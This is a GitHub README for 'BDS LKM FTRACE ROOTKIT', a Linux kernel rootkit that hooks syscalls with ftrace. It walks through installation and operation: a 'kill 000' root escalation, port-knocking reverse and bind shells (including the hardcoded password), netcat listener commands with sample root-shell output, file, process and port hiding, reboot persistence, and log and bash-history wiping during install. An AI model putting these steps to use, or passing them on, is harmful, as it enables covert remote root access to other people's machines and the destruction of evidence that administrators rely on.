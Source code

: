 <h2>BDS LKM FTRACE ROOTKIT</h2>
<p>
Linux Loadable Kernel Module Rootkit for Linux Kernel 5.x and 6.x on x86_64 using ftrace to hook syscall.
<br>
Developed by : Antonius 
<br>
Website : www.bluedragonsec.com
<br>
Github : https://github.com/bluedragonsecurity
<br>
Twitter : https://twitter.com/bluedragonsec
<br>  
This lkm rootkit works on x64 architecture only.
<br>
<h3>Features</h3> 
<ul>
  <li>hide files and directories with prefix bds_</li>
  <li>port knocking bind shell (bind shell password is bluedragonsec)</li>
  <li>port knocking reverse shell</li>
  <li>privilege escalation using kill 000 command</li>
  <li>hide bind shell and reverse shell port from netstat</li>
  <li>hide bind shell and reverse shell process</li>
  <li>rootkit persistence to survive after reboot</li>
  <li>hide module</li>
  <li>clean logs and bash history during installation</li>
</ul> 
</p>
<h3>Installation</h3>
<p>
In case you have installed linux kernel headers, make and gcc, install it by running the installer script:
<br>
<pre>
./install.sh direct
</pre>
<br>
In case you haven't installed linux kernel headers, make and gcc, install it by running the installer script  :
<br>
<pre>
./install.sh
</pre>
<br>
</p>
<h3>Using the Rootkit</h3>
<p>
<b>Privilege Escalation</b>  
<br>
Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing : <b>kill 000</b>
<pre>
robotsoft@robotsoft:~$ id
uid=1000(robotsoft) gid=1000(robotsoft) groups=1000(robotsoft),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare)
robotsoft@robotsoft:~$ kill 000
robotsoft@robotsoft:~$ id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare),1000(robotsoft)
</pre>  
</p>
<p>
<b>Activating Reverse Shell</b>
<br>
To activate reverse shell, you need to set up a port listener using netcat on port 31337, then do port knocking to your target server (with rootkit installed) on port 1337.
<br>
On your machine, open terminal and type:
<br>
<pre>
nc -l -p 31337 -v
</pre>  
Open another terminal tab and do port knocking to target server :
<pre>
nc server ip 1337
</pre>  
Wait a few seconds and you will get reverse shell port connection from your target server.
<br>
Example (server ip address with rootkit installed is at 192.168.0.102):
<pre>
  robotsoft@robotsoft:~$ nc -l -p 31337 -v
  Listening on 0.0.0.0 31337
</pre>
Do port knocking to target ip address (with rootkit installed) :
<pre>
robotsoft@robotsoft:~$ nc 192.168.0.102 1337
</pre>  
Back on your previous netcat listener, you will receive a reverse shell connection : 
<pre>
robotsoft@robotsoft:~$ nc -l -p 31337 -v
Listening on 0.0.0.0 31337
Connection received on 192.168.0.102 44052
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
</pre>
</p>

<p>
<b>Activating Bind Shell</b>
<br>
To activate bind shell, you need to do port knocking to your target server (with rootkit installed) on port 1338.
The bind shell password is : bluedragonsec
<br>
On your machine, open terminal and type:
<pre>
nc server ip 1338
</pre>  
Wait a few seconds then type:
<pre>
nc server ip 31337
type the password : bluedragonsec
</pre>
Example (server ip address with rootkit installed is at 192.168.0.102):
<pre>
robotsoft@robotsoft:~$ nc 192.168.0.102 1338
(wait a few seconds)
robotsoft@robotsoft:~$ nc 192.168.0.102 31337
Password :bluedragonsec
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
</pre>
</p>
<p>
<b>Hiding Files and Directories</b>
<br>
To hide file and directory just give prefix bds_ to file name and directory name
</p>
<p>

<p>
<b>How to Clean Logs and Bash History ?</b>
<br>
Before running installation script, add username to clean logs to usernames_to_clear_logs.txt in new line, example:
<pre>
root
robotsoft
</pre>
User logs will be cleaned during rootkit installation
</p>
<b>Persistence</b>
<br>
  The rootkit is activated every time the system starts up. After the reboot, wait for 1 minute, the rootkit will be loaded into kernel.
</p>


